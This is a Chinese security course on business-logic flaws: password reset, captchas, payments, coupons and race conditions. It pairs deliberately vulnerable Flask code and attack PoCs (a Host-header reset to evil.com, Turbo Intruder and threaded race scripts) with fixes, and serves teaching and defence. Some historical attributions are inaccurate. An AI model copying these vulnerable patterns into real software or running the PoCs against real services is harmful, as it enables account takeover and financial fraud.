



# 逻辑漏洞详解 —— 业务安全 / 竞态条件 / 支付 / 验证码 / 找回密码

## 整体学习路径


---

# 第 1 课 逻辑漏洞入门 + 身份认证类逻辑漏洞
> 时长 60 分钟。本课先建立"逻辑漏洞"的概念模型，再用注册/登录/找回密码/验证码四个高频场景把概念落地。

## 1.1 什么是逻辑漏洞
### 1.1.1 定义
**逻辑漏洞（Business Logic Vulnerability / Logic Flaw）**：应用程序的代码本身在语法上没有错误，但业务流程的设计或实现存在缺陷，使攻击者能够利用"规则边界"获取未授权的权限、数据或利益。

通俗解释：
技术漏洞 = 门窗没锁好（语法/实现错误）  
逻辑漏洞 = 门锁得好好的，但收银员算错账（业务设计错误）

### 1.1.2 一个最经典的例子
某电商下单接口：

```http
POST /api/order HTTP/1.1
Host: shop.example.com
Cookie: session=...

{"product_id": 1001, "quantity": 1, "price": 99.00}
```

注意 `price` 字段是从前端传过来的！攻击者把 `price` 改成 `0.01`，服务器直接信任这个值，于是 1 分钱买了一件 99 元商品。这就是典型的**支付逻辑漏洞**。

### 1.1.3 逻辑漏洞的根本原因
```plain
┌────────────────────────────────────────────────────┐
│  根本原因：信任了不该信任的输入                        │
│                                                    │
│  1. 信任客户端：价格/权限/状态从浏览器带过来             │
│  2. 状态机不完整：步骤可以跳过、回退、重放               │
│  3. 校验位置错：在前端校验、后端不复核                  │
│  4. 缺少一致性校验：A 步骤校验了，B 步骤没校验           │
│  5. 缺少幂等性：同一个请求重复提交会产生多次效果          │
│  6. 缺少原子性：并发请求下数据被竞争                    │
└────────────────────────────────────────────────────┘
```

## 1.2 逻辑漏洞 vs 技术漏洞
| 维度 | 技术漏洞 | 逻辑漏洞 |
| --- | --- | --- |
| 典型代表 | SQL注入 / XSS / 反序列化 | 支付篡改 / 越权 / 竞态条件 |
| 产生原因 | 代码语法/实现缺陷 | 业务设计缺陷 |
| 检测工具 | WAF / DAST 扫描器 | 几乎扫不出来 |
| Payload 特征 | 含特殊字符、攻击语法 | 看起来像正常请求 |
| WAF 拦截 | 通常能拦截 | **难以拦截**（请求合法） |
| 漏洞报告 | 容易复现、容易写 PoC | 需要描述业务上下文 |
| 修复方式 | 参数化、转义、过滤 | 重构业务校验、状态机 |
| CVSS 评分 | 通常较高 | 视影响而定（可能极高） |

**关键结论**：
+ 逻辑漏洞是 **扫描器和 WAF 的盲区**，是高级渗透测试工程师的核心价值所在。
+ 逻辑漏洞挖掘需要"业务思维"，不是"payload 思维"。

## 1.3 逻辑漏洞的危害
```plain
攻击者获利                                 业务损失
┌──────────────────┐                ┌──────────────────┐
│ 0 元购物         │                 │ 直接经济赔付       │
│ 任意用户登录      │  ───────────►   │ 用户数据泄露       │
│ 窃取他人信息      │                 │ 监管处罚          │
│ 短信轰炸竞争对手   │                 │ 品牌信誉          │
│ 任意修改订单      │                 │ 短信通道费烧钱     │
└──────────────────┘                └──────────────────┘
```

### 1.3.1 业界典型案例预览
| 事件 | 类型 | 后果 |
| --- | --- | --- |
| 拼多多 100 元无门槛券 | 优惠券逻辑 | 数小时损失过亿 |
| 某航司负价机票 | 价格计算 | 全球飞行爱好者狂欢 |
| 某外卖 0 元购 | 优惠券叠加 | 商家损失 |
| 某银行重复提交转账 | 竞态条件 | 资金异常 |
| 某社交平台密码找回 | 找回逻辑 | 任意账号劫持 |


## 1.4 注册逻辑漏洞
### 1.4.1 注册场景的业务流程
```
用户填写信息 → 校验格式 → 检查用户名是否重复 → 写入数据库 → 发送激活邮件 → 激活完成
```

### 1.4.2 漏洞点 1：用户名/邮箱覆盖
**漏洞代码（vulnerable）**：
```python
@app.route('/register', methods=['POST'])
def register():
    username = request.form['username']
    password = request.form['password']
    email    = request.form['email']

    # 仅检查用户名是否重复，没检查邮箱
    if User.query.filter_by(username=username).first():
        return "用户名已存在"

    user = User(username=username, password=password, email=email,
                role='user', is_admin=False)
    db.session.add(user)
    db.session.commit()
    return "注册成功"
```

**问题**：用户名唯一但邮箱不唯一，攻击者可以用一个已存在的邮箱重新注册，导致后续"忘记密码"功能把重置链接发到攻击者控制的旧账号上。

### 1.4.3 漏洞点 2：注册即管理员
**漏洞代码**：
```python
@app.route('/register', methods=['POST'])
def register():
    user = User(
        username = request.form['username'],
        password = request.form['password'],
        # 危险：把整个 form 直接当构造参数
        **request.form
    )
    db.session.add(user)
    db.session.commit()
```

攻击者提交：
```http
POST /register
username=hacker&password=123456&role=admin&is_admin=1&balance=99999
```
直接注册成管理员，还自带余额。这本质是 **Mass Assignment（批量赋值）**，后面第 3 课会专门讲。

### 1.4.4 漏洞点 3：邀请码/激活码绕过
```python
if invite_code == '':  # 空邀请码就放行
    pass
```

弱类型比较、空值绕过、默认值 = `True` 都是常见问题。

### 1.4.5 防御
```python
# 1. 白名单字段
ALLOWED_FIELDS = {'username', 'password', 'email'}

def register():
    data = {k: request.form[k] for k in ALLOWED_FIELDS if k in request.form}
    # 2. 服务端硬编码角色与状态
    data['role'] = 'user'
    data['is_admin'] = False
    data['balance'] = 0
    # 3. 校验邮箱唯一
    if User.query.filter_by(email=data['email']).first():
        return "邮箱已被注册"
    user = User(**data)
    db.session.add(user)
    db.session.commit()
```

## 1.5 登录逻辑漏洞
### 1.5.1 漏洞点 1：空密码绕过
**漏洞代码**：
```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username', '')
    password = request.form.get('password', '')

    user = User.query.filter_by(username=username).first()
    # 危险：用 is not 比较，而不是 !=
    if user is not None and user.password is not password:
        return "密码错误"
    session['user_id'] = user.id
    return "登录成功"
```

**原理**：`user.password is not password` 用了身份比较（`is not`），而不是值比较（`!=`）。
+ 不传 password 字段时，`password` 默认为 `''`
+ 数据库里 password 字段为 `''` 时，两个空字符串字面量在 CPython 中**可能是同一对象**（字符串驻留）
+ 即使不是同一对象，也可能因为 ORM 返回 None 而通过 `is not None` 的判断

**正确写法**：
```python
if not user or not user.verify_password(password):
    return "用户名或密码错误"
```

### 1.5.2 漏洞点 2：SQL 注入式登录
```python
sql = "SELECT * FROM users WHERE username='%s' AND password='%s'" % (u, p)
```

经典 `' OR '1'='1` 绕过，详见《SQL 注入》课件。

### 1.5.3 漏洞点 3：用户名枚举
```python
if not user:
    return "用户名不存在"
if not user.verify_password(p):
    return "密码错误"
```

两种不同的返回信息让攻击者可以**枚举出系统中存在的用户名**，再针对这些用户名爆破密码。

**正确写法**：统一返回 "用户名或密码错误"。

### 1.5.4 漏洞点 4：万能密码 / 默认账户
+ 后台预置了 `admin/admin`、`test/123456`
+ 厂商默认账户未禁用（参考 IoT 设备Mirai 蠕虫）

### 1.5.5 漏洞点 5：登录次数无限制
没有失败次数限制，导致可以暴力破解。
**防御**：
```plain
┌─────────────────────────────────────────┐
│ 1. 失败 5 次锁定账号 15 分钟              │
│ 2. 同 IP 失败 20 次封 IP                 │
│ 3. 强密码策略（长度、字符类）              │
│ 4. 启用 MFA / 验证码                     │
│ 5. 统一错误信息                          │
└─────────────────────────────────────────┘
```

## 1.6 找回密码逻辑漏洞
找回密码是逻辑漏洞的"重灾区"。常见流程：


### 1.6.1 漏洞点 1：重置 token 可预测
```python
token = str(int(time.time()))  # 时间戳当 token
```

攻击者只要知道发送时间，就能伪造 token。

**MD5(用户名) 当 token** 也属于此类：
```python
token = hashlib.md5(username.encode()).hexdigest()
```

### 1.6.2 漏洞点 2：token 不过期
重置链接永远有效，邮箱一旦泄露就会被永久利用。

### 1.6.3 漏洞点 3：返回包里带 token
```http
POST /forgot_password
email=victim@example.com

HTTP/1.1 302 Found
Location: /reset_password?token=abc123def456
Set-Cookie: ...
```

攻击者填自己的邮箱给服务器，但服务器把 token 主动塞到响应里 —— 这叫 **Password Reset Poisoning**，OWASP 官方有收录。

### 1.6.4 漏洞点 4：Host 头注入重置链接
```python
reset_link = f"http://{request.host}/reset?token={token}"
send_email(user.email, reset_link)
```

`request.host` 来自客户端请求的 Host 头，可被改写。攻击者把 Host 改成 `evil.com`，受害者收到的链接就指向攻击者服务器，token 直接泄露。

**PoC**：
```http
POST /forgot_password HTTP/1.1
Host: evil.com
Content-Type: application/x-www-form-urlencoded

email=victim@example.com
```

受害者邮箱收到的链接：`http://evil.com/reset?token=xxx`，点下去就把 token 送给攻击者。

### 1.6.5 漏洞点 5：最后一步才校验归属
```python
@app.route('/forgot/step1', methods=['POST'])
def step1():
    # 输入用户名，发邮件
    ...

@app.route('/forgot/step2', methods=['POST'])
def step2():
    # 输入验证码
    code = request.form['code']
    if code == session['code']:
        session['verified'] = True   # 标记已验证
    ...

@app.route('/forgot/step3', methods=['POST'])
def step3():
    # 重置密码
    if session.get('verified'):
        username = request.form['username']   # 关键：这里重新拿 username
        new_password = request.form['password']
        User.query.filter_by(username=username).update({'password': new_password})
```

**漏洞利用**：
1. step1 输入攻击者自己的账号 `hacker`
2. step2 通过自己的验证码
3. step3 把 `username` 改成受害者 `admin`，于是把 admin 的密码改了！

这叫 **步骤间状态不一致**，是找回密码漏洞最经典姿势。

### 1.6.6 漏洞点 6：4 位纯数字验证码爆破
短信验证码 4 位数字，没有尝试次数限制，10000 次必中。

### 1.6.7 安全的重置流程
```plain
┌──────────────────────────────────────────────────┐
│ 1. token = secrets.token_urlsafe(32)  至少 32 字节 │
│ 2. 存数据库：token, user_id, expires_at(10 分钟)    │
│ 3. 发邮件链接（host 来自配置文件，非请求头）         │
│ 4. 用户点链接回来后，服务端查 token：                 │
│    - 不存在 → 拒绝                                  │
│    - 已使用 → 拒绝（一次性）                        │
│    - 过期   → 拒绝                                  │
│    - 通过   → 让用户输入新密码                       │
│ 5. 更新密码 + 删除 token + 通知邮件                  │
└──────────────────────────────────────────────────┘
```

## 1.7 验证码逻辑漏洞
### 1.7.1 验证码的作用
```plain
┌─────────────────────────────────────┐
│ 证明请求来自真人（防爆破/防垃圾注册）    │
│限制单 IP 频率（防短信轰炸）            │
│操作确认（重要操作二次验证）             │
└─────────────────────────────────────┘
```

### 1.7.2 验证码常见缺陷
#### 缺陷 1：验证码不过期
```python
session['captcha'] = generate_code()
# 用户一直不提交，session 里永远是同一个码
```

攻击者获取一次后，可以无限次重放。

#### 缺陷 2：验证码不删除
```python
if user_input == session['captcha']:
    # 通过后没有 del session['captcha']
    return success
```

通过后还能继续用同一个验证码。

#### 缺陷 3：验证码在前端比对
```javascript
function checkCaptcha() {
    if (input.value === "AB3D") {  // 直接在前端比对
        submit();
    }
}
```

F12 一看就破。

#### 缺陷 4：验证码可重发/不替换
刷新页面不换验证码，或不点"换一张"就一直不变。

#### 缺陷 5：万能验证码⭐
```python
if user_input == session['captcha'] or user_input == '0000':
    # 后门码 0000 永远通过
```
通常是开发期间测试用的"万能码"上线时忘删。

#### 缺陷 6：Response 包泄露
```http
HTTP/1.1 200 OK
{"code": "AB3D", "result": "ok"}
```
直接把答案放响应里。

#### 缺陷 7：空值绕过
```python
if user_input == session.get('captcha'):
    pass
# 如果不传 captcha 字段，user_input 是 None
# session.get('captcha') 也是 None（如果没生成）
# None == None → True
```

### 1.7.3 短信验证码爆破
```plain
┌──────────────────────────────┐
│ 4 位数字验证码              │
│ 没尝试次数限制              │
│ 没冷却时间                  │
└──────────────────────────────┘
        │
        ▼
   最多 10000 次必中
   按每秒 100 次算 = 100 秒
```

**防御**：6 位数字 + 每日单手机号 5 次 + 失败 1 次冷却 1 分钟。

### 1.7.4 图形验证码识别
虽然有 OCR、机器学习识别，但**真正的防御**不是把图做得多么复杂（容易误伤老人/视障），而是：
```plain
┌──────────────────────────────┐
│ 1. 服务端生成 + 一次性使用      │
│ 2. 限速：IP / 账号 / 设备指纹   │
│ 3. 行为分析：异常请求触发挑战    │
└──────────────────────────────┘
```

---

## 第 1 课小结
| 模块 | 核心要点 |
| --- | --- |
| 概念 | 逻辑漏洞 = 业务设计缺陷，不是代码语法错误 |
| 注册 | 字段白名单、邮箱唯一性、角色硬编码 |
| 登录 | 统一错误信息、失败锁定、强密码 |
| 找回密码 | 强随机 token、一次性、Host 头不信任 |
| 验证码 | 一次性、过期删除、空值校验 |


## 课间实操 1（15 分钟）
搭建下面的最小靶场，复现 **Host 头注入重置链接**：
```python
# vuln_reset.py
from flask import Flask, request, render_template_string

app = Flask(__name__)

HTML = '''
<form method="post">
    邮箱: <input name="email">
    <button>发送重置链接</button>

</form>

'''

@app.route('/forgot', methods=['GET', 'POST'])
def forgot():
    if request.method == 'POST':
        email = request.form['email']
        token = 'fake-token-abc123'
        link = f"http://{request.host}/reset?token={token}"
        # 模拟发送邮件
        print(f"[模拟邮件] To: {email}\n链接: {link}")
        return "重置链接已发送"
    return HTML

if __name__ == '__main__':
    app.run(port=5000)
```

**任务**：
1. 启动服务，正常访问 `http://localhost:5000/forgot`，观察控制台链接。
2. 用 Burp 拦截，把 `Host: localhost:5000` 改成 `Host: evil.attacker.com`，再次提交，观察链接变成什么。
3. 思考：如果这是真实场景，受害者点击链接会发生什么？

---

# 第 2 课 业务流程类逻辑漏洞
时长 60 分钟。本课聚焦"涉及钱"的漏洞，是甲方最关心的逻辑漏洞类型。

## 2.1 支付逻辑漏洞
### 2.1.1 支付流程


### 2.1.2 漏洞点 1：客户端传价格
最经典的支付漏洞，前面 1.1.2 已经讲过。
```http
POST /api/order
{"product_id": 1001, "quantity": 1, "price": 0.01}
```

**PoC**：用 Burp 拦截，把 `price` 改成 `0.01` 甚至负数。

### 2.1.3 漏洞点 2：数量为负或浮点数
```json
{"product_id": 1001, "quantity": -1}
```

服务端计算总价：`total = price * quantity = 99 * -1 = -99`
如果还有优惠券 `减 10 元`，那 `total = -99 - 10 = -109`，商家倒贴！
**修复**：服务端必须校验 `quantity > 0 且为整数`。

### 2.1.4 漏洞点 3：价格为负
```json
{"price": -99}
```

某些支付系统对负数价格有兼容处理（用于"退款"），结果被滥用为正常下单。

### 2.1.5 漏洞点 4：整数溢出
```python
total = price * quantity   # 假设是 32 位有符号整数
```

如果 `price * quantity > 2^31 - 1`，会溢出为负数。

经典案例：某老游戏 1 元钱买 1 万金币，但传 `quantity = 2147483647` 时溢出，最后总价是负的。

### 2.1.6 漏洞点 5：小数精度问题
```python
>>> 0.1 + 0.2
0.30000000000000004
```

浮点数精度问题在某些场景下能被利用。**正确做法**：金额一律用整数（分）或 `Decimal`。

### 2.1.7 漏洞点 6：币种/单位混淆
```json
{"amount": 100, "currency": "JPY"}
```

日元和美元差 150 倍，如果服务端不校验 currency，或客户端能改 currency，会被薅羊毛。

### 2.1.8 漏洞点 7：订单状态机不完整
```python
@app.route('/pay/notify', methods=['POST'])
def pay_notify():
    # 第三方支付回调
    order_id = request.form['order_id']
    order = Order.query.get(order_id)
    order.status = 'paid'
    order.paid_amount = request.form['amount']  # 来自回调
    db.session.commit()
```

如果不校验回调签名，攻击者直接伪造回调把所有订单置为已支付。

### 2.1.9 漏洞点 8：越权支付别人的订单
```python
order = Order.query.get(order_id)
# 没校验 order.user_id == session['user_id']
```

支付接口 / 取消订单接口 / 查看订单接口都可能存在 IDOR，详见第 3 课。

### 2.1.10 安全的订单流程
```plain
┌───────────────────────────────────────────────────┐
│ 1. 用户提交订单：只传 product_id 和 quantity         │
│ 2. 服务端从数据库查 price，禁止从前端取               │
│ 3. 服务端校验 quantity > 0 且为整数                 │
│ 4. 服务端校验 total > 0                            │
│ 5. 用 Decimal / 整数分运算，避免浮点                 │
│ 6. 生成订单号，状态=pending                         │
│ 7. 调用第三方支付：金额由服务端签名带过去              │
│ 8. 回调验签：签名 + 订单号 + 金额 一致才更新           │
│ 9. 状态机：paid 不可重复支付、cancelled 不可支付      │
└───────────────────────────────────────────────────┘
```

## 2.2 订单与优惠券
### 2.2.1 优惠券漏洞 1：重复使用
```python
coupon = Coupon.query.filter_by(code=code).first()
if coupon:
    discount = coupon.discount
    # 没记录是否用过、用过几次
    return discount
```

一张 100 元券被无限次使用。

### 2.2.2 优惠券漏洞 2：叠加使用
业务规则规定"每单限用 1 张券"，但服务端没校验：

```python
for code in coupon_codes:
    discount += Coupon.query.filter_by(code=code).first().discount
```

几张券叠加，把 1000 元订单干到 0 元。

### 2.2.3 优惠券漏洞 3：金额负数
券面值是 100 元，但订单金额小于 100 元时，应该按"实际金额"抵扣，而不是找零。如果服务端不限制：

```python
total = price - discount   # 50 - 100 = -50
```

攻击者白嫖商品 + 商家倒贴 50 元。

### 2.2.4 优惠券漏洞 4：任意金额
```json
POST /apply_coupon
{"code": "NEW100", "discount": 99999}
```

`discount` 从客户端传过来，攻击者直接改成大额。

### 2.2.5 优惠券漏洞 5：分类/商品限制绕过
```python
if coupon.product_id != product.id:
    return "券不适用于此商品"
```

校验在前端做，攻击者抓包绕过。

### 2.2.6 优惠券漏洞 6：爆破券码
券码是 6 位数字，没有尝试次数限制，100 万次必爆一张。

### 2.2.7 安全的优惠券逻辑
```python
def apply_coupon(order, code, user):
    coupon = Coupon.query.filter_by(code=code).first()
    if not coupon:
        raise Error("券不存在")
    if coupon.expires_at < now():
        raise Error("券已过期")
    if coupon.product_category != order.category:
        raise Error("券不适用于此商品")
    if coupon.min_amount > order.total:
        raise Error("未达到使用门槛")

    # 用户使用记录
    used = CouponUsage.query.filter_by(
        coupon_id=coupon.id, user_id=user.id).count()
    if used >= coupon.per_user_limit:
        raise Error("已达到每人使用上限")

    if coupon.total_used >= coupon.total_limit:
        raise Error("券已被领完")

    # 折扣
    discount = min(coupon.discount, order.total)  # 不找零

    # 在事务里写入使用记录 + 扣减券库存
    with db.transaction():
        CouponUsage.create(coupon_id=coupon.id, user_id=user.id,
                           order_id=order.id, discount=discount)
        coupon.total_used += 1

    return discount
```

## 2.3 库存与积分
### 2.3.1 库存超卖（竞态）
```python
stock = Stock.query.get(product_id)
if stock.count > 0:
    # 中间有时间窗口
    order = create_order()
    stock.count -= 1
    db.session.commit()
```

两个用户同时下单，都看到 `count=1`，都进入 if，最后超卖。这就是**竞态条件**，2.4 节专门讲。

### 2.3.2 积分类漏洞
| 场景 | 漏洞 |
| --- | --- |
| 签到送积分 | 一天签到 N 次（不查今日是否已签） |
| 邀请好友 | 邀请码可自己邀请自己（小号） |
| 看视频送积分 | 自动播放脚本刷量 |
| 评论送积分 | 评论后删除再评论 |
| 积分兑换 | 兑换后积分没扣（事务不完整） |
| 负数兑换 | `points=-100`，越兑换积分越多 |


### 2.3.3 经典案例：签到作弊
```python
@app.route('/checkin', methods=['POST'])
def checkin():
    user = current_user()
    user.points += 10
    db.session.commit()
    return "+10 积分"
```

**漏洞**：没有判断今天是否签到过。用 Burp Intruder 跑 1000 次，账号积分飙升。

**修复**：
```python
today = datetime.now().date()
already = CheckinLog.query.filter_by(
    user_id=user.id, date=today).first()
if already:
    return "今日已签到"
with db.transaction():
    CheckinLog.create(user_id=user.id, date=today)
    user.points += 10
```

## 2.4 竞态条件 Race Condition
### 2.4.1 什么是竞态条件
**竞态条件**：多个线程/进程同时访问共享资源，由于访问顺序不当导致结果异常。
类比：银行余额 100 元，ATM 同时取款 100 元两次。
 + 线程 A 读到余额 100，判断 ≥ 100，准备扣款
 + 线程 B 读到余额 100，判断 ≥ 100，准备扣款
 + 线程 A 扣款，余额 = 0
 + 线程 B 扣款，余额 = -100
 银行亏了 100 元。



### 2.4.2 竞态在 Web 安全中的体现
| 场景 | 攻击 |
| --- | --- |
| 取款 / 转账 | 同一笔转账并发提交 N 次，余额异常 |
| 优惠券领取 | 同一秒并发领取，库存超发 |
| 签到 / 抽奖 | 同一动作并发，积分/奖品翻倍 |
| 投票 | 同一候选人并发投票，绕过限速 |
| 注册唯一性 | 同一用户名并发注册，绕过唯一检查 |


### 2.4.3 竞态漏洞复现 —— 经典提现案例
**漏洞代码**：
```python
@app.route('/withdraw', methods=['POST'])
def withdraw():
    user = current_user()
    amount = int(request.form['amount'])
    if user.balance >= amount:
        # 时间窗口（这里慢一点更明显）
        import time; time.sleep(0.1)
        user.balance -= amount
        db.session.commit()
        # 转账出去
        transfer_to_bank(amount)
        return "提现成功"
    return "余额不足"
```

**攻击**：余额 100 元。开 20 个线程并发提交 `amount=100`，每个线程都读到 `balance=100`，全部通过校验，最终余额 = -1900，转账出去 2000 元。

### 2.4.4 Burp Suite 竞态测试
Burp 在 2023 年引入了 **Turbo Intruder** 和新的并发引擎，可以精确测量竞态窗口。

**步骤**：
1. 把 withdraw 请求发送到 Repeater。
2. 右键 → Send to Turbo Intruder（或使用 Extensions → Turbo Intruder）。
3. 编辑 Python 脚本：
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           engine=Engine.BURP2)
    for i in range(30):
        engine.queue(target.req)
    engine.complete()

def handleResponse(req, interesting):
    table.add(req)
```
4. Attack，观察 30 个请求几乎同时到达，多个返回"提现成功"。

### 2.4.5 单连接多请求 HTTP/2 竞态
Burp 2024 新版支持 HTTP/2 Single-Packet Attack（单包多请求），把 20-30 个请求打包到一个 TCP 包里发送，进一步缩小时间窗口。

OWASP 在 2023 年公开的 **Single-Packet Race Condition** 论文让这种攻击变得非常实用。

### 2.4.6 防御竞态条件
#### 方案 1：数据库行锁（悲观锁）
```sql
SELECT * FROM accounts WHERE user_id = 1 FOR UPDATE;
```

```python
with db.transaction():
    # 加行锁
    user = Account.query.with_for_update().get(user_id)
    if user.balance >= amount:
        user.balance -= amount
        db.session.commit()
```

#### 方案 2：CAS（乐观锁）
加一个 version 字段：

```sql
UPDATE accounts
SET balance = balance - 100, version = version + 1
WHERE user_id = 1 AND version = 5;
```

如果 version 不匹配（已被其他线程改过），affected rows = 0，应用层重试。

#### 方案 3：唯一约束
签到场景：
```sql
ALTER TABLE checkin_log ADD UNIQUE (user_id, date);
```

第二天才能再插入，并发时数据库拒绝重复。

#### 方案 4：Redis 分布式锁
```python
lock_key = f"withdraw:{user_id}"
if not redis.set(lock_key, 1, nx=True, ex=5):
    return "操作太频繁"
try:
    # 业务逻辑
finally:
    redis.delete(lock_key)
```

#### 方案 5：状态机
订单状态只能从 `pending → paid`，不能从 `paid → paid`：
```python
if order.status != 'pending':
    raise Error("订单状态错误")
order.status = 'paid'
```

## 2.5 业务流程跳步
### 2.5.1 什么是跳步
很多业务分多步，例如：
```plain
1. 填写信息  → 2. 实名认证 → 3. 上传资料 → 4. 人工审核 → 5. 开通权限
```

如果服务端只校验"上一步是否完成"，但不校验"是否真的填了实名"，攻击者可以直接请求第 5 步的接口。

### 2.5.2 案例：抽奖活动跳步
某活动流程：1. 关注公众号 → 2. 分享朋友圈 → 3. 邀请好友 → 4. 抽奖
如果第 4 步接口直接可调用，跳过前三步直接抽奖。

### 2.5.3 案例：会员升级
```python
@app.route('/upgrade')
def upgrade():
    # 校验用户是否完成所有任务
    tasks = TaskLog.query.filter_by(user_id=current_user().id).all()
    if len(tasks) >= 3:
        current_user().role = 'vip'
    ...
```

如果不真的检查任务完成情况，而是信任客户端传的 `tasks_done=true`，攻击者直接传 true 即可升级。

### 2.5.4 防御
```plain
┌──────────────────────────────────────┐
│ 1. 服务端维护状态机，每步记录完成状态│
│ 2. 进入下一步前查询状态机            │
│ 3. 不要信任客户端传的状态字段        │
│ 4. 关键操作二次验证（短信/邮箱/MFA） │
└──────────────────────────────────────┘
```

---

## 第 2 课小结
| 模块 | 核心要点 |
| --- | --- |
| 支付 | 价格服务端取，数量校验，回调验签 |
| 优惠券 | 一人一码，叠加规则，事务扣减 |
| 库存积分 | 防超卖，防重复签到 |
| 竞态 | 行锁/CAS/唯一约束/状态机 |
| 跳步 | 状态机推进，服务端校验 |


## 课间实操 2（20 分钟）
用下面最小靶场复现**提现竞态漏洞**：

```python
# race_vuln.py
from flask import Flask, request, session
import time, threading

app = Flask(__name__)
app.secret_key = 'xxx'

balance = {'amount': 100}    # 模拟数据库

@app.route('/')
def index():
    return f"余额: {balance['amount']}"

@app.route('/withdraw', methods=['POST'])
def withdraw():
    amount = int(request.form['amount'])
    if balance['amount'] >= amount:
        time.sleep(0.05)        # 模拟网络/DB 延迟
        balance['amount'] -= amount
        return f"提现成功 {amount}"
    return "余额不足"

if __name__ == '__main__':
    app.run(port=5000, threaded=True)
```

**任务**：
1. 启动服务，正常 `curl -X POST -d "amount=100" http://localhost:5000/withdraw` 验证逻辑。
2. 用 Burp 把 `/withdraw` 请求发送到 Turbo Intruder（或写 Python `threading` 脚本）。
3. 并发 20 次 `amount=100`，观察首页余额变成多少（应该为负）。
4. 修复代码：加 `threading.Lock()` 或 `SELECT FOR UPDATE` 风格，再次验证。

参考 Python 并发 PoC：
```python
import requests, threading

URL = 'http://localhost:5000/withdraw'

def fire():
    r = requests.post(URL, data={'amount': 100})
    print(r.text)

threads = [threading.Thread(target=fire) for _ in range(20)]
for t in threads: t.start()
for t in threads: t.join()
```

---

# 第 3 课 数据与接口类逻辑漏洞
时长 60 分钟。本课关注 API 设计层面的逻辑问题。

## 3.1 IDOR 延伸
### 3.1.1 IDOR 复习
IDOR（Insecure Direct Object Reference，不安全的直接对象引用）在《越权漏洞》课件中讲过，本节聚焦 IDOR 在 API 时代的新形态。

经典 IDOR：
```plain
GET /api/orders/1001   → 自己订单
GET /api/orders/1002   → 别人订单（漏洞！）
```

### 3.1.2 现代版本：UUID / GUID 真的安全吗
很多开发者改用 UUID 当订单号：
```plain
GET /api/orders/550e8400-e29b-41d4-a716-446655440000
```

理由是"UUID 不可猜"。但是：
1. UUID 可能通过其他接口泄露（列表、搜索、日志）
2. UUID v1 包含时间戳和 MAC，可推断
3. 部分 UUID 实现有碰撞规律
4. 一旦泄露一个 UUID，就能配合 IDOR 横向越权

**结论**：UUID 不能替代权限校验。

### 3.1.3 IDOR 的多种姿态
| 接口 | 漏洞 |
| --- | --- |
| `GET /api/users/123/profile` | 看到他人资料 |
| `PUT /api/users/123/email` | 修改他人邮箱 |
| `DELETE /api/messages/456` | 删除他人消息 |
| `POST /api/messages` body 含 `from_user_id` | 冒充他人发消息 |
| `GET /api/invoices/2024/001` | 多维参数 IDOR |
| GraphQL `user(id: 123)` | 任意查 |
| WebSocket `{"action":"get", "id": 1}` | WS 也有 IDOR |


### 3.1.4 IDOR 挖掘技巧
```plain
┌────────────────────────────────────────────────┐
│ 1. 注册两个账号 A 和 B                          │
│ 2. 用 A 创建几个对象（订单/消息/文档）          │
│ 3. 拿 A 的对象 ID，切到 B 的 session 请求        │
│ 4. 如果 B 能看到/修改 A 的对象，就是 IDOR        │
└────────────────────────────────────────────────┘
```

Burp 插件 **Autorize / Authz / AuthMatrix** 可以半自动化做这件事。

### 3.1.5 防御
```python
# 错误
order = Order.query.get(order_id)

# 正确
order = Order.query.filter_by(
    id=order_id, user_id=current_user().id
).first()
if not order:
    abort(404)   # 不区分"不存在"和"无权限"
```

## 3.2 批量赋值 Mass Assignment
### 3.2.1 什么是 Mass Assignment
ORM 框架为了方便，支持把请求参数直接赋给模型字段：

```python
user = User(**request.json)   # 危险
```

如果 `User` 模型有 `role`、`is_admin`、`balance` 字段，攻击者就能改。

### 3.2.2 各语言的批量赋值
| 语言/框架                     | 写法                               |
| ------------------------- | -------------------------------- |
| Flask/SQLAlchemy          | `User(**request.form)`           |
| Django                    | `ModelForm(request.POST).save()` |
| Spring                    | `@ModelAttribute User user`      |
| Rails                     | `User.new(params[:user])`        |
| Node + Express + Mongoose | `User.create(req.body)`          |

### 3.2.3 Spring 经典案例
```java
public class User {
    private String username;
    private String password;
    private boolean isAdmin;   // ← 敏感字段
}

@PostMapping("/register")
public String register(@ModelAttribute User user) {
    userRepo.save(user);
    return "ok";
}
```

